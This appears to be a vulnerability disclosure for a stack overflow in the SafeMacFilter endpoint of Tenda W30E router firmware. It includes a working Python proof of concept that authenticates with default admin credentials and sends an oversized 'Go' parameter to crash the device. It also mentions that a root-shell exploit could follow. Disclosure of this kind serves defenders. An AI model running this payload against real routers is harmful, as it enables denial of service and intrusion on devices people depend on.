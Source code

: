 # Tenda W30E V1.0.1.25(633) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2218.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/exeCommand/img/1.png)

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/SafeMacFilter/img/2.png)

In /goform/SafeMacFilter, when the menufacturer is tenda, Go will be copied to s by strcpy. It is worth noting that there is no size check, which leads to a stack overflow vulnerability.

## Poc

```python
import requests

cmd = b'menufacturer=tenda&Go=' + b'a' * 0x3000

url = b"http://192.168.10.103/login/Auth"
payload = b"http://192.168.10.103/goform/SafeMacFilter/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

You can see that the router crashed, and finally you can write an exp to get a root shell
